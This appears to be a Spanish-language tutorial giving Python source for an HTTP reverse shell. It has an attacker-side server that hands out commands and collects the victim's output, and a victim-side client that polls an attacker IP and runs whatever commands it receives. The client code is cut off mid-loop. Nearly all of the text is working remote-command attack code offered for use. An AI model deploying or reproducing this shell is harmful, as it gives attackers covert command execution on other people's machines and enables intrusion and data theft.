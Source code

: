 ### ⚙️ Implementación

Vamos a crear:

1. Un **servidor HTTP** (en la máquina atacante).
2. Un **cliente reverse shell HTTP** (en la máquina víctima).

---

#### 🖥️ 1. Servidor HTTP (atacante)

```python
# http_server.py
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

comando_a_enviar = "whoami"

class ShellHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(comando_a_enviar.encode())

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print("[+] Respuesta de la víctima:")
        print(post_data.decode())
        self.send_response(200)
        self.end_headers()

def run_server():
    server_address = ('0.0.0.0', 8000)  # Cambia puerto si es necesario
    httpd = HTTPServer(server_address, ShellHandler)
    print("[+] Servidor HTTP escuchando en el puerto 8000...")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

🔁 Puedes editar la variable `comando_a_enviar` para enviar otros comandos.

---

#### 🐍 2. Cliente HTTP (víctima)

```python
# http_client.py
import requests
import subprocess
import time

server_url = "http://192.168.1.10:8000"  # IP del atacante

while True:
    try:
        r = requests.get(server_url)
        comando = r.text.strip()
        if comando.lower() == "exit":
            break

        resultado = subprocess.getoutput(comando)
        print(f"[+] Resultado de '{comando}':\n{resultado}")

```